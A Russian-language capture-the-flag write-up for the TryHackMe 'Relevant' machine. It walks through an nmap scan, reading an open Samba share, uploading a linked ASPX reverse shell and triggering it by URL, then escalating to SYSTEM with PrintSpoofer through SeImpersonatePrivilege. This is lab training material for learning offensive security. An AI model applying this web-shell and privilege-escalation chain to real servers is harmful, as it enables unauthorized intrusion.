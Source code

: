 # Relevant

:white_check_mark:  [**Samba**](#samba)

:white_check_mark: [**SeImpersonatePrivilege**](#SeImpersonate)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV -p- relevant.thm
```

```
PORT      STATE SERVICE       VERSION                                                                                                                     
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                    
|_http-server-header: Microsoft-IIS/10.0                                                                                                                  
|_http-title: IIS Windows Server                                                                                                                             
| http-methods:                                                                                                                                              
|_  Potentially risky methods: TRACE                                                                                                                      
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                       
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                               
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-02-23T14:44:13+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-02-22T14:23:03
|_Not valid after:  2022-08-24T14:23:03
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-02-23T14:43:33+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Главная страница **relevant.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/1.png)

<a name="samba"></a>

Посмотри что находится на **samba**:
```
smbclient -L relevant.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/2.png)

Находим директорию **nt4wrksv**, посмотрим, что в ней.
```
smbclient \\\\relevant.thm\\nt4wrksv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/3.png)

Находим файл с паролями, скачаем его:
```
get passwords.txt
```

Декодируем и получаем данные пользователей, которые увы, никуда нельзя подставить, т.к. это rabbit hole.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/4.png)

Просканировав url через **gobuster** находим директорию **nt4wrksv**. В эту директорию можно загрузить свой **shell** через **samba**. Покопавшись в интернете находим [shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/5.png)

Запускаем слушатель и открываем shell через url.
```
http://relevant.thm/nt4wrksv/shell.aspx
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

<a name="SeImpersonate"></a>

Подключившись к машине, посмотрим права командой:
```
whoami /priv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/7.png)

Мы можем видеть SeImpersonate privileges, которые могут быть использованы для повышения привилегий. Находим [эксплоит](https://github.com/dievus/printspoofer)

Закидываем эксплоит на **samba**, он будет находиться в директории **C:\inetpub\wwwroot\nt4wrksv**.

Запускаем эксплоит командой:
```
PrintSpoofer -i -c cmd
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

Получаем nt authority\system
